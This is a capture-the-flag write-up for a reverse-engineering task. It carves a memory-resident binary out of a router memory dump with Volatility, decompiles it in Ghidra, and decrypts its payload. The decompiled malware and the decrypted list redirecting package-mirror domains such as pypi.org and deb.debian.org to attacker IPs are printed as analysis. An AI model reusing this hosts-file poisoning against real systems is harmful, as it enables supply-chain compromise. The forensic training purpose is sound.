

## Task 3 - Digging deeper - (Reverse Engineering)


> The network administrators confirm that the IP address you provided in your description is an edge router. DAFIN-SOC is asking you to dive deeper and reverse engineer this device. Fortunately, their team managed to pull a memory dump of the device.

> Scour the device's memory dump and identify anomalous or malicious activity to find out what's going on.

> Your submission will be a list of IPs and domains, one per line. For example:

```
127.0.0.1 localhost
192.168.54.131 corp.internal
...
```

> Downloads: Memory Dump (memory.dump.gz), Metadata (System.map.br), Kernel Image (vmlinux.xz)

> Prompt: Submit a complete list of affected IPs and FQDNs, one per line.

### Solve:

Finally, we got to the good part, reverse engineering

We are given a memory dump, so some digital forensics is required before we can get there though. 

#### Volatility Reveals All

Volatility will of course be our go to tool for this. We need a symbol table though so that we can get actual useful data from the memory dump. We can do this with the tool, [drarf2json](https://github.com/volatilityfoundation/dwarf2json)

```
~/dwarf2json/dwarf2json --elf vmlinux --system-map System.map --output symtable.json
```

I first started with looking at processes with Volatility (make sure `--symbol-dirs` is pointing to the directory that you made your symbol table JSON file in)

```
python3 ~/tools/volatility3/vol.py -f memory.dump --symbol-dirs=. linux.psaux.PsAux 
```

Immediately we can see a suspicious process, near the bottom of the output

```
1244    1       dropbear        /usr/sbin/dropbear -F -P /var/run/dropbear.1.pid -p 22 -K 300 -T 3
1405    1       netifd  /sbin/netifd
1524    1       odhcpd  /usr/sbin/odhcpd
1552    515     4       /bin/resolver-refresh /proc/self/fd/5         <--- What is this?
1744    1       ntpd    /sbin/ujail -t 5 -n ntpd -U ntp -G ntp -C /etc/capabilities/ntpd.json -c -u -r /bin/ubus -r /usr/bin/env -r /usr/bin/jshn -r /usr/sbin/ntpd-hotplug -r /usr/share/libubox/jshn.sh -- /usr/sbin/ntpd -n -N -S /usr/sbin/ntpd-hotplug -p 0.openwrt.pool.ntp.org -p 1.openwrt.pool.ntp.org -p 2.openwrt.pool.ntp.org -p 3.openwrt.pool.ntp.org
1749    1744    ntpd    /usr/sbin/ntpd -n -N -S /usr/sbin/ntpd-hotplug -p 0.openwrt.pool.ntp.org -p 1.openwrt.pool.ntp.org -p 2.openwrt.pool.ntp.org -p 3.openwrt.pool.ntp.org
1854    1552    service /bin/sh /sbin/service dnsmasq restart
1855    1854    dnsmasq /bin/sh /etc/rc.common /etc/init.d/dnsmasq restart
```

The process with a PID of 1552 is doing something with a file descriptor, and also, the command name is just `4`? 

```
1552    515     4       /bin/resolver-refresh /proc/self/fd/5 
```

This is really suspicious. Let's look deeper. We can dump the virtual memory sections of this process with Volatility (just make sure `-f` and `--symbol-dir` are pointing to the right files / directories)

```
python3 ~/tools/volatility3/vol.py  -f ../../memory.dump --symbol-dir=../.. linux.proc.Maps --pid 1552 --dump
```

It shows us what exactly each section is once we do this

```
PID     Process Start   End     Flags   PgOff   Major   Minor   Inode   File Path       File output

1552    4       0x557c6ca39000  0x557c6ca3a000  r--     0x0     0       1       1024    /memfd:x (deleted)      pid.1552.vma.0x557c6ca39000-0x557c6ca3a000.dmp
1552    4       0x557c6ca3a000  0x557c6ca3b000  r-x     0x1000  0       1       1024    /memfd:x (deleted)      pid.1552.vma.0x557c6ca3a000-0x557c6ca3b000.dmp
1552    4       0x557c6ca3b000  0x557c6ca3c000  r--     0x2000  0       1       1024    /memfd:x (deleted)      pid.1552.vma.0x557c6ca3b000-0x557c6ca3c000.dmp
1552    4       0x557c6ca3c000  0x557c6ca3d000  r--     0x2000  0       1       1024    /memfd:x (deleted)      pid.1552.vma.0x557c6ca3c000-0x557c6ca3d000.dmp
1552    4       0x557c6ca3d000  0x557c6ca3e000  rw-     0x3000  0       1       1024    /memfd:x (deleted)      pid.1552.vma.0x557c6ca3d000-0x557c6ca3e000.dmp
1552    4       0x557c6d607000  0x557c6d608000  ---     0x0     0       0       0       Anonymous Mapping       pid.1552.vma.0x557c6d607000-0x557c6d608000.dmp
1552    4       0x557c6d608000  0x557c6d609000  rw-     0x0     0       0       0       Anonymous Mapping       pid.1552.vma.0x557c6d608000-0x557c6d609000.dmp
1552    4       0x7f495f4c3000  0x7f495f4c4000  rw-     0x0     0       0       0       Anonymous Mapping       pid.1552.vma.0x7f495f4c3000-0x7f495f4c4000.dmp
1552    4       0x7f495f4c4000  0x7f495f4d8000  r--     0x0     254     0       361     /lib/libc.so    pid.1552.vma.0x7f495f4c4000-0x7f495f4d8000.dmp
1552    4       0x7f495f4d8000  0x7f495f524000  r-x     0x14000 254     0       361     /lib/libc.so    pid.1552.vma.0x7f495f4d8000-0x7f495f524000.dmp
1552    4       0x7f495f524000  0x7f495f539000  r--     0x60000 254     0       361     /lib/libc.so    pid.1552.vma.0x7f495f524000-0x7f495f539000.dmp
1552    4       0x7f495f539000  0x7f495f53a000  r--     0x74000 254     0       361     /lib/libc.so    pid.1552.vma.0x7f495f539000-0x7f495f53a000.dmp
1552    4       0x7f495f53a000  0x7f495f53b000  rw-     0x75000 254     0       361     /lib/libc.so    pid.1552.vma.0x7f495f53a000-0x7f495f53b000.dmp
1552    4       0x7f495f53b000  0x7f495f53e000  rw-     0x0     0       0       0       Anonymous Mapping       pid.1552.vma.0x7f495f53b000-0x7f495f53e000.dmp
1552    4       0x7ffecdd2b000  0x7ffecdd4c000  rw-     0x0     0       0       0       [stack] pid.1552.vma.0x7ffecdd2b000-0x7ffecdd4c000.dmp
1552    4       0x7ffecdda9000  0x7ffecddad000  r--     0x0     0       0       0       Anonymous Mapping       pid.1552.vma.0x7ffecdda9000-0x7ffecddad000.dmp
1552    4       0x7ffecddad000  0x7ffecddae000  r-x     0x0     0       0       0       [vdso]  pid.1552.vma.0x7ffecddad000-0x7ffecddae000.dmp
```

Since some of these memory sections are part of what is some binary executable, we can cat these sections together until we get an executable file. As seen below, the first `memfd:x (deleted)` section shows us an ELF header


I am going to cat all the `memfd:x (deleted)` sections together and see if we can get an executable file

```
cat pid.1552.vma.0x557c6ca39000-0x557c6ca3a000.dmp pid.1552.vma.0x557c6ca3a000-0x557c6ca3b000.dmp pid.1552.vma.0x557c6ca3b000-0x557c6ca3c000.dmp pid.1552.vma.0x557c6ca3c000-0x557c6ca3d000.dmp pid.1552.vma.0x557c6ca3d000-0x557c6ca3e000.dmp > some_file
```

If we run `file` on this, we get

```
some_file: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-musl-x86_64.so.1, missing section headers at 59168
```

Bingo. Just to be 100% sure, we can also make this file executable and try to run it 

> If you are going to do this on what is very likely malware, do it in a sandboxed environment, or don't do it at all, and just try to statically analyze it instead. I do it below just to get the point across that we do indeed have an executable file

```
./some_file 
Usage: ./some_file <encoded file>
```

This is even more telling that we have something. It's Ghidra time!

#### Go Go Ghidra

Remember, from the `file` command output, the binary is missing section headers, meaning the original symbol and function names are unavailable, making the binary a little harder to reverse engineer. However, we can pretty easily find the `main` function by trying to find `libc_start_main`

> Note I had already done some function renaming in the below disassembly snippets

```c

void start_main(undefined4 *param_1)

{
  __libc_start_main(&main,*param_1,param_1 + 2,&__DT_INIT,&__DT_FINI,0);
  return;
}
```

Now we can take a look at the main function

```c

undefined8 UndefinedFunction_00101c7e(int param_1,undefined8 *param_2)

{
  undefined8 uVar1;
  long in_FS_OFFSET;
  undefined8 uStack_40;
  ulong uStack_38;
  void *pvStack_30;
  undefined4 *puStack_28;
  undefined4 *puStack_20;
  long lStack_18;
  long lStack_10;
  
  lStack_10 = *(long *)(in_FS_OFFSET + 0x28);
  if (param_1 == 2) {
    FUN_001012bf();
    uStack_40 = 0;
    pvStack_30 = (void *)read_file_into_memory(param_2[1],&uStack_40);
    if (pvStack_30 == (void *)0x0) {
      uVar1 = 1;
    }
    else {
      uStack_38 = 0;
      puStack_28 = (undefined4 *)base64_decode(pvStack_30,uStack_40,&uStack_38);
      free(pvStack_30);
      if (puStack_28 == (undefined4 *)0x0) {
        uVar1 = 1;
      }
      else if (uStack_38 < 4) {
        fwrite("Decoded payload too short to even have the key...\n",1,0x32,(FILE *)0x0);
        free(puStack_28);
        uVar1 = 1;
      }
      else {
        puStack_20 = puStack_28 + 1;
        lStack_18 = uStack_38 - 4;
        decrypt(puStack_20,lStack_18,*puStack_28);
        write_to_hosts(puStack_20,lStack_18);
        system("service dnsmasq restart");
        free(puStack_28);
        FUN_0010156c();
        uVar1 = 0;
      }
    }
  }
  else {
    fprintf((FILE *)0x0,"Usage: %s <encoded file>\n",*param_2);
    uVar1 = 1;
  }
  if (lStack_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return uVar1;
}
```

Again, the above snippet already shows the result of my analyzing functions and renaming them based on what they do. Regardless, starting from the top and going downwards, we first see a function that reads a file into memory

```c

void * read_file_into_memory(char *param_1,size_t *param_2)

{
  int iVar1;
  FILE *__stream;
  void *__ptr;
  size_t sVar2;
  
  printf("opening %s\n",param_1);
  __stream = fopen(param_1,"rb");
  if (__stream == (FILE *)0x0) {
    perror("fopen");
    __ptr = (void *)0x0;
  }
  else {
    printf("opened %s\n",param_1);
    iVar1 = fseek(__stream,0,2);
    if (iVar1 == 0) {
      sVar2 = ftell(__stream);
      if ((long)sVar2 < 0) {
        perror("ftell");
        fclose(__stream);
        __ptr = (void *)0x0;
      }
      else {
        rewind(__stream);
        __ptr = malloc(sVar2 + 1);
        if (__ptr == (void *)0x0) {
          perror("malloc");
          fclose(__stream);
          __ptr = (void *)0x0;
        }
        else {
          sVar2 = fread(__ptr,1,sVar2,__stream);
          iVar1 = ferror(__stream);
          if (iVar1 == 0) {
            *(undefined *)(sVar2 + (long)__ptr) = 0;
            fclose(__stream);
            *param_2 = sVar2;
          }
          else {
            perror("fread");
            free(__ptr);
            fclose(__stream);
            __ptr = (void *)0x0;
          }
        }
      }
    }
    else {
      perror("fseek");
      fclose(__stream);
      __ptr = (void *)0x0;
    }
  }
  return __ptr;
}
```

And also a function that performs some kind of base64 decoding

```c
void * base64_decode(long param_1,size_t param_2,long *param_3)

{
  long lVar1;
  char cVar2;
  char cVar3;
  char cVar4;
  char cVar5;
  char cVar6;
  char cVar7;
  uint uVar8;
  void *__ptr;
  void *pvVar9;
  ulong local_38;
  ulong local_30;
  long local_28;
  ulong local_20;
  
  __ptr = malloc(param_2);
  if (__ptr == (void *)0x0) {
    perror("malloc");
    pvVar9 = (void *)0x0;
  }
  else {
    local_38 = 0;
    for (local_30 = 0; local_30 < param_2; local_30 = local_30 + 1) {
      cVar2 = *(char *)((ulong)*(byte *)(local_30 + param_1) + 0x104040);
      if ((-1 < cVar2) || (cVar2 == -2)) {
        *(undefined *)((long)__ptr + local_38) = *(undefined *)(param_1 + local_30);
        local_38 = local_38 + 1;
      }
    }
    pvVar9 = malloc((local_38 >> 2) * 3 + 4);
    if (pvVar9 == (void *)0x0) {
      perror("malloc");
      free(__ptr);
      pvVar9 = (void *)0x0;
    }
    else {
      local_28 = 0;
      local_20 = 0;
      while (local_20 < local_38) {
        if (local_20 < local_38) {
          cVar2 = *(char *)((ulong)*(byte *)(local_20 + (long)__ptr) + 0x104040);
          local_20 = local_20 + 1;
        }
        else {
          cVar2 = -2;
        }
        if (local_20 < local_38) {
          cVar3 = *(char *)((ulong)*(byte *)(local_20 + (long)__ptr) + 0x104040);
          local_20 = local_20 + 1;
        }
        else {
          cVar3 = -2;
        }
        if (local_20 < local_38) {
          cVar4 = *(char *)((ulong)*(byte *)(local_20 + (long)__ptr) + 0x104040);
          local_20 = local_20 + 1;
        }
        else {
          cVar4 = -2;
        }
        if (local_20 < local_38) {
          cVar5 = *(char *)((ulong)*(byte *)(local_20 + (long)__ptr) + 0x104040);
          local_20 = local_20 + 1;
        }
        else {
          cVar5 = -2;
        }
        if ((cVar2 < '\0') || (cVar3 < '\0')) break;
        cVar6 = cVar4;
        if (cVar4 < '\0') {
          cVar6 = '\0';
        }
        cVar7 = cVar5;
        if (cVar5 < '\0') {
          cVar7 = '\0';
        }
        uVar8 = (int)cVar7 | (int)cVar2 << 0x12 | (int)cVar3 << 0xc | (int)cVar6 << 6;
        *(char *)(local_28 + (long)pvVar9) = (char)(uVar8 >> 0x10);
        lVar1 = local_28 + 1;
        if (cVar4 != -2) {
          *(char *)(local_28 + 1 + (long)pvVar9) = (char)(uVar8 >> 8);
          lVar1 = local_28 + 2;
        }
        local_28 = lVar1;
        if (cVar5 != -2) {
          *(char *)(local_28 + (long)pvVar9) = (char)uVar8;
          local_28 = local_28 + 1;
        }
        if ((cVar4 == -2) || (cVar5 == -2)) break;
      }
      free(__ptr);
      *param_3 = local_28;
    }
  }
  return pvVar9;
}
```

There is also some kind of custom decryption scheme

```c

void decrypt(long param_1,ulong param_2,uint param_3)

{
  byte bVar1;
  byte local_17;
  uint local_14;
  ulong i;
  
  local_17 = (byte)param_3;
  local_14 = param_3;
  for (i = 0; i < param_2; i = i + 1) {
    local_14 = local_14 + 0x722633ad;
    bVar1 = *(byte *)(i + param_1);
    *(byte *)(i + param_1) = bVar1 ^ (byte)(local_14 >> 0xd) ^ (byte)local_14 ^ local_17;
    local_17 = bVar1;
  }
  return;
}
```

A function to write to `/etc/hosts`

```c

void write_to_hosts(void *param_1,size_t param_2)

{
  ulong uVar1;
  int iVar2;
  char *__dest;
  void *pvVar3;
  FILE *__stream;
  ulong local_50;
  ulong local_48;
  void *local_40;
  char *local_38;
  ulong local_30;
  
  __dest = (char *)malloc(param_2 + 1);
  if (__dest == (char *)0x0) {
    perror("malloc");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  memcpy(__dest,param_1,param_2);
  __dest[param_2] = '\0';
  local_50 = 0x40;
  local_48 = 0;
  local_40 = malloc(0x200);
  local_38 = __dest;
  if (local_40 == (void *)0x0) {
    perror("malloc tok");
    free(__dest);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  while (*local_38 != '\0') {
    while ((*local_38 != '\0' && (iVar2 = FUN_00101299(*local_38), iVar2 != 0))) {
      local_38 = local_38 + 1;
    }
    if (*local_38 == '\0') break;
    pvVar3 = local_40;
    if (local_48 == local_50) {
      pvVar3 = realloc(local_40,local_50 << 4);
      local_50 = local_50 * 2;
      if (pvVar3 == (void *)0x0) {
        perror("realloc tok");
        free(local_40);
        free(__dest);
                    /* WARNING: Subroutine does not return */
        exit(1);
      }
    }
    local_40 = pvVar3;
    uVar1 = local_48 + 1;
    *(char **)(local_48 * 8 + (long)local_40) = local_38;
    while ((*local_38 != '\0' && (iVar2 = FUN_00101299(*local_38), iVar2 == 0))) {
      local_38 = local_38 + 1;
    }
    local_48 = uVar1;
    if (*local_38 != '\0') {
      *local_38 = '\0';
      local_38 = local_38 + 1;
    }
  }
  puts("opening /etc/hosts");
  __stream = fopen("/etc/hosts","a");
  if (__stream != (FILE *)0x0) {
    for (local_30 = 0; local_30 < local_48 >> 1; local_30 = local_30 + 1) {
      fprintf(__stream,"%s %s\n",*(undefined8 *)((long)local_40 + local_30 * 0x10),
              *(undefined8 *)((long)local_40 + local_30 * 0x10 + 8));
    }
    fclose(__stream);
    if ((local_48 & 1) != 0) {
      fprintf((FILE *)0x0,"warning: weird token count (%zu); ignoring last... check this fff\n",
              local_48);
    }
    free(local_40);
    free(__dest);
    return;
  }
  perror("fopen /etc/hosts");
  free(local_40);
  free(__dest);
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

And also a call to `system` to restart `dnsmasq`

```c
system("service dnsmasq restart");
```

It is very clear what this binary does. It reads some sort of file into memory, which it assumes is in base64 format, decodes it, decrypts the result, writes the result to `/etc/hosts`, and restarts `dnsmasq`

This is pretty obviously a malware, with the base64 encoded file very likely containing encrypted malicious entries to have your system resolve domain names to malicious IPs. 

The prompt asks us to "submit a complete list of affected IPs and FQDNs, one per line", so we have to mimic this base64 decoding and decryption logic and use it on a file that was inputted to this malicious binary. 

The question is, where do we find said file? Well remember in the Ghidra disassembly, it writes the inputted file to memory. So the file's contents are very likely in our memory dump, specifically in one of the virtual memory sections we had already dumped for the `1552` process. 

With the below `grep` command, we can search for any base64 content since, as we know, the binary reads in a base64 encoded file

```
grep -R --binary-files=text -E '[A-Za-z0-9+/]{20,}={0,2}' .
```



The full Base64 was in the contents of the malicious binary itself, or more accurately, one of the memory sections that made up the malicious binary that was part of the `cat` command from earlier. The actual memory dump file it was in was `pid.1552.vma.0x557c6ca3d000-0x557c6ca3e000.dmp`. 


Now we have the inputted file contents! Specifically:

`
My2sZXIL9BrnA2AkQMrZFjmo39O7SHzhl05PAkyQGOkXbxlxB/w+01koZEnH93AS94B5HdlPiN8eAjh83Aipe0kVdv0U3MtNaCoTs4g0HOL6HkqEErmqlYeqAKo2jVJWSBCSEo7bcEf3w3S2CgKv/I+GZrMUKRg6Xvl5sa88Zd3aYagaKJjUcXjARJDV6PLIZIU+lqi2lsRMwShywo8mF7tyyMltNLinfKU0HiYDLJ0fqb2Cj3Eh3ka+zTQe+YYPwV5NGl3aIukD8ILPpaJZ3x5aW0zwl3IK6JDMtnMw8RiS/67GVKZSt67PlhVZ3kKB4hhux7M2SJL+8sUQpXvA9de1zDHSE4qG1Y0KNPPca1ZNPaHZRw+Gj5e0ELAau5qHo21l632in9L8cl/r3Fp9JCGza7G8nrSSuR+BNveAkNkKZO6WSCLX8ht6+PBuPWtzlE+mVCZ2Gp92ru0+KHMV6s0mTaXHNmzlb/+j3pzw+hbkE5b3sbQl+jV/huEOe9Jat/AFFOWwB4AldlQ7EKoAz9NOHlRM9TKZkT9w3cAioHU8dnBQBewS4pz5m4Bms2B125Qrfov6DVSxtzF7/3W0l7qCtR2xAVF5Lx9TrnXX02dM/ttnpjk+aDuyHoM/9sbU+etN2WooIyLYnmtLq9Q7D4yqf7AkUh5w/Q7/DwJ1Z6GkN7R4PjVSvtAhQNyhqtJSvXaXDGsBcIpzkw4TSgnIsTFKnu0Nd/jHRi7m5/TSCKsN7M312Uiuea8jCFt6991xR8/45ZlA0FIP0I63kjebO+PZyuEmFYLkMgSwgTEXqqs0aDgyqGuIkq2DqHnIVe8uYGsy5ZljGeqCJ3qdDcnbsPmJhnG8TjhABWT5NafsISXEpVQqgs08NcOII/dDADNUI9Eoyyup8aKzNPFVVe6NYT3JUL3iqrhzMo82je3D5L1MiF5MwYk6NJtS/8llJ5HLT9wEWBs8FKQKuvaKl7zkJOtAQfm+FCWfpgYbRh+c3ULnJhgNIHvWCb3g6/gxdMmqUDiWrhU37TqxoumHGfc6za+Gnrz9ZalyPyZYp9hwFMK76MdJZLdfxaXjlnmJc57B1swGDJT6P01ZNqTUWy6047OkI8Ac5JrpivUWwHq35eyaVmfthXQUA3jjaOGudXRWS+xb+x11NlnPIO/ETmw2BbGTdBDSzMqbF4w6aVdfbbIOl2mxh4yLEDT012lJ9cxrtBcAgY++8VzNZVU/KA/bX8eTTEYFWKDCYlT9vQEIuWiEjPC01ybGacXpqKXsLqJVDbahTymWWvv7TRmQh1ycfgR/C2HZTfq3YGuFwX/nG3qRiXBulQzJx5rGRaBZsUcvaBYZ8ziFzz4/x+wJb4Hs9vQqJ7Uy7NnP/dJ7+whVfX//6TDwTHXU5VhgvJgbCkpjvxGBdquHr5jCfvgheDk4+48nEaaTx+R2X5GDF347WrITvVlyR0+J2FvCB3hmGPmTQjDyjtfDVI5UtNeo16lMim/t6/j+NkXJ+Sxfv8kNafC+MTIoYpBonWkDSje0XJCeFjxuFcu8TirRrO2vZvR/LBZNeTeRTqIjQxUBiF+EpAc7haRJJ9nDNjoqYtBdr+bO69ASqzN88P39vQ00jbgRWOLjT4IyPVITYiCVetjizcqNUdccQbSwRAv/LdaEew==
`

I save the contents into a file I name `sussy`

Now time to mimic the decoding and decryption that the binary does. I just use Python for simplicity

```python
import struct
import base64

def decrypt(data: bytes, key: int) -> bytes:
   
    decrypted = bytearray(data)
    local_14 = key & 0xFFFFFFFF
    local_17 = key & 0xFF  # least significant byte

    for i in range(len(decrypted)):
        local_14 = (local_14 + 0x722633ad) & 0xFFFFFFFF  # mimic 32-bit overflow
        b = decrypted[i]
        decrypted[i] = b ^ ((local_14 >> 13) & 0xFF) ^ (local_14 & 0xFF) ^ local_17
        local_17 = b

    return bytes(decrypted)

# Path to file
filename = "sussy"

# Step 1: read the file into memory
with open(filename, "rb") as f:
    file_data = f.read()

# Step 2: decode Base64
decoded_payload = base64.b64decode(file_data)

# Suppose `decoded_payload` is the base64-decoded bytes
key = struct.unpack("<I", decoded_payload[:4])[0]  # little-endian
encrypted_data = decoded_payload[4:]

plaintext = decrypt(encrypted_data, key)
print(plaintext.decode(errors="ignore"))

text = plaintext.decode('utf-8', errors='ignore')

# Split into tokens (whitespace-separated)
tokens = text.split()

print("-----------------------")
print("This would get written to /etc/hosts:\n")

# Pair each consecutive two tokens
for i in range(0, len(tokens), 2):
    if i + 1 < len(tokens):
        ip = tokens[i]
        host = tokens[i + 1]
        print(f"{ip} {host}")
```

If we run this script, we get:

```
203.0.113.245 http.kali.org 203.0.113.245 security.ubuntu.com 203.0.113.41 mirrors.alpinelinux.org 203.0.113.32 pypi.io 203.0.113.245 archive.ubuntu.org 203.0.113.245 archive.archlinux.org 203.0.113.245 cache.nixos.org 203.0.113.41 mirrors.rpmfusion.org 203.0.113.245 dl-cdn.alpinelinux.org 203.0.113.245 packages.linuxmint.com 203.0.113.245 ftp.us.debian.org 203.0.113.32 files.pythonhosted.org 203.0.113.32 pypi.org 203.0.113.41 mirrors.fedoraproject.org 203.0.113.41 xmirror.voidlinux.org 203.0.113.245 dl.rockylinux.org 203.0.113.245 download1.rpmfusion.org 203.0.113.41 mirrors.rockylinux.org 203.0.113.245 download.opensuse.org 203.0.113.245 security.ubuntu.org 203.0.113.245 archive.ubuntu.com 203.0.113.245 ports.ubuntu.org 203.0.113.245 distfiles.gentoo.org 203.0.113.245 ports.ubuntu.com 203.0.113.32 pypi.python.org 203.0.113.41 mirror.stream.centos.org 203.0.113.41 mirror.rackspace.com 203.0.113.41 mirrors.opensuse.org 203.0.113.245 deb.debian.org 203.0.113.245 security.debian.org 203.0.113.245 repo-default.voidlinux.org 203.0.113.245 repo.almalinux.org 203.0.113.245 dl.fedoraproject.org 203.0.113.245 repos.opensuse.org 203.0.113.41 mirrors.kernel.org 203.0.113.41 geo.mirror.pkgbuild.com 203.0.113.245 us.archive.ubuntu.com
-----------------------
This would get written to /etc/hosts:

203.0.113.245 http.kali.org
203.0.113.245 security.ubuntu.com
203.0.113.41 mirrors.alpinelinux.org
203.0.113.32 pypi.io
203.0.113.245 archive.ubuntu.org
203.0.113.245 archive.archlinux.org
203.0.113.245 cache.nixos.org
203.0.113.41 mirrors.rpmfusion.org
203.0.113.245 dl-cdn.alpinelinux.org
203.0.113.245 packages.linuxmint.com
203.0.113.245 ftp.us.debian.org
203.0.113.32 files.pythonhosted.org
203.0.113.32 pypi.org
203.0.113.41 mirrors.fedoraproject.org
203.0.113.41 xmirror.voidlinux.org
203.0.113.245 dl.rockylinux.org
203.0.113.245 download1.rpmfusion.org
203.0.113.41 mirrors.rockylinux.org
203.0.113.245 download.opensuse.org
203.0.113.245 security.ubuntu.org
203.0.113.245 archive.ubuntu.com
203.0.113.245 ports.ubuntu.org
203.0.113.245 distfiles.gentoo.org
203.0.113.245 ports.ubuntu.com
203.0.113.32 pypi.python.org
203.0.113.41 mirror.stream.centos.org
203.0.113.41 mirror.rackspace.com
203.0.113.41 mirrors.opensuse.org
203.0.113.245 deb.debian.org
203.0.113.245 security.debian.org
203.0.113.245 repo-default.voidlinux.org
203.0.113.245 repo.almalinux.org
203.0.113.245 dl.fedoraproject.org
203.0.113.245 repos.opensuse.org
203.0.113.41 mirrors.kernel.org
203.0.113.41 geo.mirror.pkgbuild.com
203.0.113.245 us.archive.ubuntu.com
```

There we go! The answer is

```
203.0.113.245 http.kali.org
203.0.113.245 security.ubuntu.com
203.0.113.41 mirrors.alpinelinux.org
203.0.113.32 pypi.io
203.0.113.245 archive.ubuntu.org
203.0.113.245 archive.archlinux.org
203.0.113.245 cache.nixos.org
203.0.113.41 mirrors.rpmfusion.org
203.0.113.245 dl-cdn.alpinelinux.org
203.0.113.245 packages.linuxmint.com
203.0.113.245 ftp.us.debian.org
203.0.113.32 files.pythonhosted.org
203.0.113.32 pypi.org
203.0.113.41 mirrors.fedoraproject.org
203.0.113.41 xmirror.voidlinux.org
203.0.113.245 dl.rockylinux.org
203.0.113.245 download1.rpmfusion.org
203.0.113.41 mirrors.rockylinux.org
203.0.113.245 download.opensuse.org
203.0.113.245 security.ubuntu.org
203.0.113.245 archive.ubuntu.com
203.0.113.245 ports.ubuntu.org
203.0.113.245 distfiles.gentoo.org
203.0.113.245 ports.ubuntu.com
203.0.113.32 pypi.python.org
203.0.113.41 mirror.stream.centos.org
203.0.113.41 mirror.rackspace.com
203.0.113.41 mirrors.opensuse.org
203.0.113.245 deb.debian.org
203.0.113.245 security.debian.org
203.0.113.245 repo-default.voidlinux.org
203.0.113.245 repo.almalinux.org
203.0.113.245 dl.fedoraproject.org
203.0.113.245 repos.opensuse.org
203.0.113.41 mirrors.kernel.org
203.0.113.41 geo.mirror.pkgbuild.com
203.0.113.245 us.archive.ubuntu.com
```

Submitting this solves this task!

**Response**:
> Good work! Let's head back to NSA headquarters to continue with this analysis.